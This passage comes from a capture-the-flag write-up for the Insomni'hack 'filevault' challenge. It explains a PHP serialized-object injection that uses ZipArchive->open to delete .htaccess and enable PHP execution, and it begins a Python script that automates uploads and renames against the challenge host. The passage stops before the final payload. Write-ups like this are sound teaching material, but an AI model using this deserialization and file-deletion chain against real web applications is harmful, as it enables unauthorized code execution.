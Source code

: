 ```bash
$ php list.php
SQLite3->open
SessionHandler->open
XMLReader->open
ZipArchive->open
```

We have four classes which have an `open()` method. If we **inject** a **serialized
object** of any one of these classes in our `$files` array, we can call
their method via the `open` action with the parameters of our choice.

Luckily for us, most of these classes **manipulate files**.
Thinking back to our challenge, the only file worth playing around
with is the `.htaccess` preventing us from **executing PHP**. If we can somehow
delete the `.htaccess` file, we win.

At this point, we can locally test the behavior of each class.
After some time, I noticed that the `ZipArchive->open` method **deletes** the target
file if we give a `"9"` as a **second parameter** (don't ask me why...).

> *EDIT:*  The second parameter of `ZipArchive->open()` is to specify additional
> options. The value `9` is for `ZipArchive::CREATE | ZipArchive::OVERWRITE`.
> Since ZipArchive is planning on overwriting our file, it deletes it preemptively!
> Thanks @pagabuc for the explanation!

We should now be able to use ZipArchive->open() to delete the `.htaccess` file.

# Getting a shell

Let's develop our final payload.

I created a **python script** to automate the actions of the web app.

```python
#!/usr/bin/env python2

import requests
import urllib

URL = "http://filevault.teaser.insomnihack.ch/"
s = requests.Session()

def upload(name):
    files = {'vault_file': (name, 'GARBAGE')}
    params = { "action" : "upload" }
    s.post(URL, params=params, files=files)

def rename(index, new_name):
    data = { "newname" : new_name }
    params = {
        "action" : "changename",
        "i" : index
    }
    s.post(URL, params=params, data=data)

def open_file(index):
    params = {
        "action" : "open",
        "i" : index
    }
    return s.get(URL, params=params).text
```
